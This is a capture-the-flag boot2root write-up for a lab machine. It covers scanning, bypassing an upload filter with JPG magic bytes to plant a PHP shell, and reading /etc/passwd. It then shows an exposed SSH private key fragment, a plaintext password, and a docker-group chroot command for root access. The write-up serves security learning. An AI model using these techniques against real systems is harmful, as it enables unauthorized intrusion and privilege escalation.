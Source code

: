 ## BattleX CTF: another_machine 
#### Category: Boot2Root
#### Score: 60
#### Number of Solves: 4 

### TL; DR

Exploit upload functionality of a webserver to gain initial access, escalating privilege from low privileged user to a more privileged user through exposed ssh credentials and to root using docker group.

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 17:10 WAT
Nmap scan report for 10.10.90.12
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Death Note - Add Names
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.66 seconds
```

We have two services running. One SSH on port 22 and Apache web server on port 80. The versions of the services doesn't look like one with a public available exploit to hasten my progress.

### Exploring

![Port 80](https://i.imgur.com/IiUJoIt.png)

_Apache on port 80_

On uploading a JPG file, nothing happens, it seems it uploaded. But to what location?

I used `gobuster` to do a light directory bruteforce, using a common.txt wordlist from SecLists.

![Imgur](https://i.imgur.com/bTuZUNJ.png)

_Gobuster result_

/notes was discovered and on checking, it contained the uploaded file in it. Nice, I could exploit this upload to gain initial access to the base system. I tried uploading a php shell and was greeted by this. 

![Imgur](https://i.imgur.com/drkMEXr.png)

This _thing_ is validating the file signature and less likely the file extension (.php). To bypass this upload restriction. I copied a jpg file magic and pasted in the request, using BurpSuite Repeater.

![Imgur](https://i.imgur.com/RZfkdLr.png)

Boom, my shell uploaded.

![Imgur](https://i.imgur.com/cSUR2FR.png)

### Gaining access 

I opened my equivalent netcat listener and I have shell.

![Imgur](https://i.imgur.com/z6dd8hT.png)

```
www-data@deathnote:/opt/containerd$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[snip]
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
[snip]
ryuk:x:1000:1000:ryuk:/home/ryuk:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
light:x:1001:1001:,,,:/home/light:/bin/bash
```

### Privilege escalation

We have two users apart from root. Next, I uploaded linpeas to quicken my system enumeration proceedure. Linpeas detected a ssh private key in /opt/containerd/ directory which should belong to either of the users or probably root. 

```
www-data@deathnote:/opt/containerd$ ls

bin
id_rsa
lib
www-data@deathnote:/opt/containerd$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAzndKq1pSh74SM3nfOe2Wk+lcoLF6sIQMwL4wo7wTuRALVS8O
wDiejhpCJuZ72EAujPmsxJrDN5eD9h3Gvaf56gPcSBEomVoU2oWBVaISTuKjOvXK
[snip]
9cN3D9ruIqD060p8gTfKZAuvMKoTP3ChHAxdXVDcjl6ChTPCKRigQf0=
-----END RSA PRIVATE KEY-----
```
It turned out to be the ssh key for ryuk, now, I will use a more standard and stable shell access.

![Imgur](https://i.imgur.com/r0AGEGy.png)

_user.txt and I can't cat it??_

```
ryuk@deathnote:~$ ls -lah
total 44K
drwx---r-x 6 ryuk  ryuk 4.0K Jun 16 01:23 .
drwxr-xr-x 4 root  root 4.0K Jun 15 01:17 ..
lrwxrwxrwx 1 ryuk  ryuk    9 Jun 16 01:08 .bash_history -> /dev/null
-rw-r--r-- 1 ryuk  ryuk  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 ryuk  ryuk 3.7K Apr  4  2018 .bashrc
drwx------ 2 ryuk  ryuk 4.0K Jun 14 20:52 .cache
drwx------ 3 ryuk  ryuk 4.0K Jun 14 20:52 .gnupg
drwxrwxr-x 3 ryuk  ryuk 4.0K Jun 15 00:49 .local
-rw-r--r-- 1 ryuk  ryuk  807 Apr  4  2018 .profile
-rwx------ 1 ryuk  ryuk   24 Jun 15 01:16 rotedcreds
drwx------ 2 ryuk  ryuk 4.0K Jun 16 01:28 .ssh
-rw-r--r-- 1 ryuk  ryuk    0 Jun 14 20:55 .sudo_as_admin_successful
-rwxr----- 1 light root   33 Jun 15 01:21 user.txt
```

user.txt is owed by user light and root and there's a suspicious `rotedcreds` file which contained a ciphered text. I will proceed to use cyberchef or any tool to anaylse the text and get something useful from it.

![Imgur](https://i.imgur.com/VmKtjp7.png)

_ROT13 with amount 13_

Credential for light, gotten.

`light:0lightyagami23433`

```
ryuk@deathnote:~$ su light
Password:
light@deathnote:/home/ryuk$ cat user.txt
5eb63bbbe01eeed093cb22bb8f5acdc3
light@deathnote:/home/ryuk$
```

User flag gotten!!

User flag: `5eb63bbbe01eeed093cb22bb8f5acdc3` 

### Privilege escalation to root

![Imgur](https://i.imgur.com/NIr8bZQ.png)

_Manual enumeration_

Light may not use sudo but Light is in the docker group. Meaning, Light can run docker as root. I can easily escalate to root with this discovery. By running this command, `docker run -v /:/mnt --rm -it alpine chroot /mnt bash` (source: gtfobins), I will be spawned into a root shell.

![Imgur](https://i.imgur.com/e0sZ5EU.png)

```
root@729fd2f76468:~# ls -lah
total 40K
drwx------  6 root root 4.0K Jun 16 02:12 .
drwxr-xr-x 24 root root 4.0K Jun 14 20:01 ..
lrwxrwxrwx  1 root root    9 Jun 15 04:14 .bash_history -> /dev/null
[snip]
drwx------  2 root root 4.0K Jun 14 20:51 .ssh
-r--r--r--  1 root root  353 Jun 15 01:37 deathnote
-rw-------  1 root root  123 Jun 16 02:12 root.txt
root@729fd2f76468:~# cat root.txt
here is your flag but please remove the deathnote before leaving h4ckerm4n

1f3870be274f6c49b3e31a0c6728957f
root@729fd2f76468:~#
```
Root flag gotten.

Root flag:`1f3870be274f6c49b3e31a0c6728957f`

### Extras

There's a note saying I should remove the deathnote before leaving, its clearly having read and no write permissions. 

```
root@729fd2f76468:~# chmod 777 deathnote
chmod: changing permissions of 'deathnote': Operation not permitted
root@729fd2f76468:~# chattr -i deathnote
Hacksparo was too smart -i deathnote
```
_Tried to use chattr_

I will figure out a way later. Onto the next.

### References

1. [gtfobins](https://gtfobins.github.io/gtfobins/docker/)